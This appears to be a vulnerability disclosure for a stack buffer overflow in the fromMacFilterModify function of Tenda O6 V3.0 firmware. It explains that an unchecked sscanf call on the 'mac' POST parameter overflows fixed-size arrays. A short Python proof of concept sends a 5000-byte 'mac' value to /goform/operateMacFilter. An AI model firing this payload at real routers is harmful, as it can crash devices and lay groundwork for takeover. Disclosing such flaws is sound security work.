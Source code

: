 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3861.html

## Affected version

O6 V3.0 V1.0.0.7(2054)

## Vulnerability details

In the O6 V3.0 V1.0.0.7(2054) firmware has a stack overflow vulnerability in the `fromMacFilterModify` function. The `v1` variable receives the `mac` parameter from a POST request. However, since the user can control the input of `mac`, the statement `sscanf(v1, "%7[^:]:%7[^:]:%7[^:]:%7[^:]:%7[^:]:%7s", v46, v45, v44, v43, v42, v41);` can cause a buffer overflow. The user-provided  `nac` can exceed the capacity of the `v41~v46` array, triggering this security vulnerability.

![image-20240801133802434](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240801133802434.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/operateMacFilter"
payload = b"a"*5000

data = {"mac": payload}
response = requests.post(url, data=data)
```
